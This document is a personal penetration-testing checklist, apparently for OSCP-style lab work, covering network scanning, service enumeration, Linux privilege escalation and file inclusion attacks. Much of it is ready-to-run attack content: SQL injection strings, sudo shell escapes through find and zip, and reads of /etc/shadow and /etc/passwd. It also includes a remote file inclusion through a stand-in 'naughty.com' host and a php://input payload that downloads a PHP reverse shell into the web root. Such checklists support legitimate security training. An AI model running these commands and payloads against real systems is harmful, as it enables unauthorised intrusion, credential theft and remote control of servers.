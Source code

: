 <h1>PWNAGE CHECKLIST</h1>
<h2>Basic things I forget to check.</h2>

- establish vpn connectivity / confirm connectivity
- check my ip
- Scan target network
  - basic ping sweep on large range
  - select target – make note of ip in evernote
  - document everything
- Wireshark
  - Set to specific interface
  - Check how requests being handled
  - Htmlentities / escaping / str replace
  - tcp connect success or resets
  - Responses from cli connect attempts
  - Filtering
	  - ``` ip-addr==192.192.192.192 ```
- Indepth nmap scan
  - ``` nmap -sC -sV -O -A -T2/3 IP-TARGET -v ```
	  - DEFAULT SCRIPTS, SERVICE DISCOVERY, OS DETECTION, SLOWER SCAN (TO BE SAFE), VERBOSE
	- ``` nmap -sU -T3 Ip-target -v ```
	- ```--source-port 100``` just to try evade, change to well-known port number

- Port 21
  - Banner grabbing
	  -```ftp root@ip-target```
	- Try anonymous login
	- Set to **BINARY** for exe
	- PUT / DELETE
	- Check for version numbers
	- use searchsploit / google for known vulns

- Port 22
  - Banner grabbing / check username
	  - ```ssh root@192.192.192.192```

- Ports 139, 445
  - nmap enumerate if possible with scripts if nothing came up before. perhaps change scan speed to slower one
  - enum4linux
  - smbclient
    - ```smbclient \\\\ip\\share```
  - try to connect to them to see if they are truly alive
  - Banner grabbing even if booted
  - ```nbtscan [ip-range]```
    - (https://highon.coffee/blog/nbtscan-cheat-sheet/)

- Port 161 (snmp)
  - ```snmpwalk -c public -v 1 $IP 1.3.6.1.4.1.77.1.2.25```
  - ```snmp-check $IP```
  - ```onesixtyone $IP```

- Port 80 / 443 open
  - ``` nikto -host ip-target -evasion 8``` (Many others check -H)
  - ``` dirb http://Ip-target -r``` **Different wordlist perhaps**
  - Non-recursive to save time, then inspect further if necessary
  - Try nmap ``` -–script=http-enum.nse``` (others available)
  - Check site in browser (http/https)
  - Resolve host name if necessary (etc/hosts)
  - Cookies
  - GET POST
  - Check source
	  - Directories
	  - Comments
	  - Script links
	  - Form methods
	  - Login forms
		  - Versions/names/brands etc
		  - Basic sql injection
        - ``` ‘or 1=1```
        - ```union```
   
<H2>Linux</H2>

- Low priv 
  - find writeable directories if /tmp or /dev/shm not available
	  - ```find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;```
  - netcat 
   	- ```>``` output to a file
   	- ```nc -nv target-ip port < filename``` (send from kali)
  - upgrade linux shell
   	- ```python -c “import pty; pty.spawn(‘/bin/bash’)”```
		- ctrl+z backgrounds the shell on local box
		-then type:
		  - ```ssty raw -echo```
			- ```fg```
			- ```reset```
			- if size is an issue type:
			  - ```stty size``` (returns current window size)
				- ```stty -rows 48 -columns 120``` (eg size)
- Priv esc linux
  - try ```sudo su``` or ```sudo -l```
	- If ```find``` has sudo ```sudo find /home -exec sh -i \;```
	- ```sudo zip exploit.zip exploit -T --unzip-command="python -c 'import pty; pty.spawn(\"/bin/sh\")'"``` (https://v3ded.github.io/ctf/zico2.html)
	- if these don’t work try get kernel and distro info to look for exploits
	  - ```uname -ar```
		- ```cat /etc/issue```
		- ```cat /etc/*-release```
		- ```cat /etc/lsb-release```
		- ```cat /etc/redhat-release```
  - SUID
	  - ```find / -perm -u=s -type f 2>/dev/null ```
  - Available programs/languages on host:
	  - which Perl,python etc
	- Nc,ncat,wget,curl
	  - ```curl -o theFile http://IP:PORT/theFile```
		- ```curl ftp://ftp.domain.com --user username:password```
		  - Access FTP server (Add file to end of domain to download)
		- ```wget http://IP:PORT/theFile -O theFile```
		- ```fetch -o theFile http://IP:PORT/theFile``` (FreeBSD)
  - Password Files
	  - /etc/pwd.db
		- /etc/spwd.db
		- /etc/shadow
		- /etc/passwd

<H2>Windows</H2>

 - Priv esc
 - Still busy gathering info... Have this so far:
   - cacls C:\WINDOWS\system32\ - This displays permissions on folder & same for file eg: cacls test.txt
	 - icacls for newer Windows versions (I think Vista upwards)

<H2>Getting In</H2>

- Remote file inclusion (https://sushant747.gitbooks.io/total-oscp-guide/remote_file_inclusion.html)
  - Similar to local file inclusion while not hosted on the target
	- Rarer than LFI due to php.ini needs to configured for it
	- Requres unsanitised parameter:
	  - ```$theFile = $_REQUEST[“file”];```
		- ```include($theFile . “.php”);```
	- Now in browser:
	  - http://192.192.192.192/index.php?page=http://naughty.com/badfile.txt
		- Badfile.txt:
		  - ```<?php echo shell_exec("whoami");?>```
- LFI (https://highon.coffee/blog/lfi-cheat-sheet/)
- Directory traversal
  - ```foo.php?file=../../../../../../../etc/passwd```
	- PHP ```expect:``` #Not enabled by default, uses expect wrapper to execute commands
	- http://127.0.0.1/fileincl/example1.php?page=expect://ls
	- PHP (POST request) ```php://input```
	- http://192.168.183.128/fileincl/example1.php?page= **php://input**
	  - input can be:
		- ```<? system('wget http://192.192.192.192/php-reverse-shell.php -O /var/www/shell.php');?>```
		- In browser:
		  - http://192.192.192.192/shell.php
	- PHP ```php://filter```
	  - http://192.192.192.192/fileincl/example1.php?page= **php://filter/convert.base64-encode/resource=../../../../../etc/passwd**
		- Must decode the output from base64
		- /proc/self/environ (If you able to write there)
- Manipulate ```User Agent``` in Burp
- phpinfo()
  - https://highon.coffee/blog/lfi-cheat-sheet/#fimap--phpinfo-exploit
	- Uses phpinfo() to write temporary files together with fimap
- WAF
  - wafw00f http://example.com
  
- Transferring files
  - I prefer SimpleHTTPServer to see active transfers
	  - ```python -m SimpleHTTPServer 443``` 

**usefull links**
- https://netsec.ws/?p=331	- msfvenom,shells,tips
- https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97
- https://sushant747.gitbooks.io/total-oscp-guide/connections.html
- http://www.fuzzysecurity.com/tutorials/16.html - Windows Priveledge Escalation tips
- https://payatu.com/guide-linux-privilege-escalation/ - Linux Privesc


